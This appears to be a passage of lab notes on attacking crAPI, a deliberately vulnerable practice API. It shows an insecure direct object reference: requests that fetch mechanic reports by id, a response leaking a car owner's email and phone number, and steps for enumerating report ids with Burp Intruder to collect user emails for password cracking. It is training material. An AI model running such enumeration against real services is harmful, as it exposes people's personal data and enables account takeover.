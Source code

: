 ```http
GET /workshop/api/mechanic/mechanic_report?report_id=5 HTTP/1.1
Host: crapi.apisec.

```
<br>

Resp
```json
{
  "id": 5,
  "mechanic": {
    "id": 2,
    "mechanic_code": "TRAC_JME",
    "user": {
      "email": "james@example.com",
      "number": ""
    }
  },
  "vehicle": {
    "id": 45,
    "vin": "4FTVZ46ZYHU404703",
    "owner": {
      "email": "adam007@example.com",
      "number": "9876895423"
    }
  },
  "problem_details": "My car Lamborghini - Aventador is having issues.\nCan you give me a call on my mobile 9876895423,\nOr send me an email at adam007@example.com \nThanks,\nAdam.\n",
  "status": "Pending",
  "created_on": "11 February, 2025, 14:05:42"
}
```
<br>

### You can then send one of these requests to Intruder and get all users email addys to use to crack passwords/break authentication
```http
GET /workshop/api/mechanic/mechanic_report?report_id=5 HTTP/1.1
Host: crapi.apisec.ai
```
<br>

You can manually guess report Ids, or send to intruderset position for the value of `report_id` 
```http
GET /workshop/api/mechanic/mechanic_report?report_id=§ § HTTP/1.1
Host: crapi.apisec.ai
```


Set the payloads

##  Broken User Authentication
